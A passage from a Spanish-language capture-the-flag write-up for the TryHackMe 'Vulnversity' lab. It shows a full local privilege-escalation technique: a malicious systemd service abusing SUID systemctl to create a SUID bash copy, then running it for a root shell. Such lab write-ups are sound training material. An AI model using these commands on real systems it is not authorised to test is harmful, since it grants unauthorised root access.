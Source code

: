 ### ⚠️ Potencialmente vulnerable

#### 🤯 `/bin/systemctl`

Este **sí es interesante** y muy común encontrarlo en máquinas de TryHackMe/CyberSec labs.

- `systemctl` es una herramienta que **controla el sistema init** (`systemd`) y **requiere privilegios root** .
- Si puedes ejecutar `systemctl` con SUID, puedes **intentar crear un servicio malicioso** y ejecutarlo como root.

Con lo cual, podemos crear un servicio falso para habilitarlo y obtener una shell de root.  

## 🧠 ¿Cómo explotar `/bin/systemctl` con SUID?

Si puedes ejecutar `systemctl` como root sin ser root, podrías crear un servicio que lance una shell o te dé acceso root.

### Pasos básicos

1. **Crear un servicio malicioso** en tu directorio temporal:

```shell
cd /tmp
cat > rootshell.service << EOF
[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash"
EOF
```

2.**Ejecutar el servicio con systemctl (como root)** :

```bash
/bin/systemctl link /tmp/rootshell.service
/bin/systemctl start /tmp/rootshell.service
```

3.**Ejecutar la bash con privilegios SUID** :

```bash
/tmp/rootbash -p
```

Al ingresar el comando, obtenemos una shell de *root*.  
Solo falta navegar al directorio para encontrar la flag en `root.txt`

---

## 🎯 Conclusión

La máquina **Vulnversity** es una excelente introducción a:

- Enumeración web básica
- ByPass de filtros de subida de archivos
- Uso de SUID para escalada de privilegios


